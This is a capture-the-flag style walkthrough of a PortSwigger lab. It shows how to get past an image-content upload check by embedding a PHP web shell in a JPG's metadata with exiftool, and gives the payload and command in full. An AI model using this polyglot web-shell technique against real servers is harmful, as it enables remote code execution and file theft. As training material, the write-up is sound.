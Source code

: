 # Remote code execution via polyglot web shell upload

## Description

[This lab](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload) contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code. 

## Reproduction and proof of concept

1. On your system, create a file called ``exploit.php`` containing a script for fetching the contents of Carlos's secret. For example:

```text
<?php echo file_get_contents('/home/carlos/secret'); ?> 
```

2. Log in and attempt to upload the script as your avatar. Observe that the server successfully blocks you from uploading files that aren't images, even if you try using some of the techniques you've learned in previous labs.
3. Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata. A simple way of doing this is to download and run ExifTool from the command line as follows:

```text
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

This adds your PHP payload to the image's Comment field, then saves the image with a ``.php`` extension. 
4. In your browser, upload the polyglot image as your avatar, then go back to your account page. 
5. In Burp's proxy history, find the ``GET /files/avatars/polyglot.php`` request. Use the message editor's search feature to find the ``START`` string somewhere within the binary image data in the response. Between this and the ``END`` string, you should see Carlos's secret, for example:
``START 2B2tlPyJQfJDynyKME5D02Cw0ouydMpZ END``
6. Submit the secret to solve the lab. 

## Exploitability

An attacker will need to log in to `wiener:peter`; upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`; and then enter this secret using the button provided in the lab banner.
